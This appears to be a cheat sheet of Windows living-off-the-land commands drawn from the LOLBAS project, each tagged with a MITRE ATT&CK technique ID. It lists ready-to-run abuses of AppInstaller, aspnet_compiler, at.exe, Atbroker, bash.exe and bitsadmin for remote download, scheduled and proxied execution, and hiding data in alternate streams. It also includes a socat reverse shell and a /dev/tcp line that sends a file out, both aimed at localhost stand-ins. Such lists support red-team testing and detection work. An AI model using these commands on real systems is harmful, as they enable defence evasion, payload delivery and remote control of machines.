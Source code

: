 # AppInstaller.exe T1105
start ms-appinstaller://?source=https://127.0.0.1/bad.txt

# Aspnet_Compiler.exe T1127
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_compiler.exe -v none -p C:\asptest\ -f C:\asptest\none -u

# at.exe T1053.002
C:\Windows\System32\at.exe at 09:00 /interactive /every:m,t,w,th,f,s,su C:\Windows\System32\calc.exe

# Atbroker.exe T1218
C:\Windows\System32\Atbroker.exe /start calc.exe
C:\Windows\SysWOW64\Atbroker.exe /start calc.exe

# Bash.exe T1202
C:\Windows\System32\bash.exe -c calc.exe
C:\Windows\System32\bash.exe -c "socat tcp-connect:127.0.0.1:80 exec:sh,pty,stderr,setsid,sigint,sane"
C:\Windows\System32\bash.exe -c 'cat calc.exe > /dev/tcp/127.0.0.1/24'

# Bitsadmin.exe T1564.004
C:\Windows\System32\bitsadmin.exe /create myfile
C:\Windows\System32\bitsadmin.exe /addfile myfile c:\windows\system32\notepad.exe c:\notepad.exe
C:\Windows\System32\bitsadmin.exe /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
C:\Windows\System32\bitsadmin.exe /RESUME myfile


# Bitsadmin.exe T1105
C:\Windows\System32\bitsadmin.exe /create 1 
C:\Windows\System32\bitsadmin.exe /addfile 1 https://live.sysinternals.com/autoruns.exe c:\autoruns.exe 
C:\Windows\System32\bitsadmin.exe /RESUME 1
C:\Windows\System32\bitsadmin.exe /complete 1

# Bitsadmin.exe T1105
C:\Windows\System32\bitsadmin.exe /create 1
C:\Windows\System32\bitsadmin.exe /addfile 1 c:\windows\system32\cmd.exe c:\cmd.exe
C:\Windows\System32\bitsadmin.exe /RESUME 1
C:\Windows\System32\bitsadmin.exe /Complete 1
C:\Windows\System32\bitsadmin.exe /reset

# Bitsadmin.exe T1218
C:\Windows\System32\bitsadmin.exe /create 1
C:\Windows\System32\bitsadmin.exe /addfile 1 c:\windows\system32\cmd.exe c:\cmd.exe
C:\Windows\System32\bitsadmin.exe /SetNotifyCmdLine 1 c:\cmd.exe NULL
C:\Windows\System32\bitsadmin.exe /RESUME 1
C:\Windows\System32\bitsadmin.exe /Reset




# Resources
https://lolbas-project.github.io/#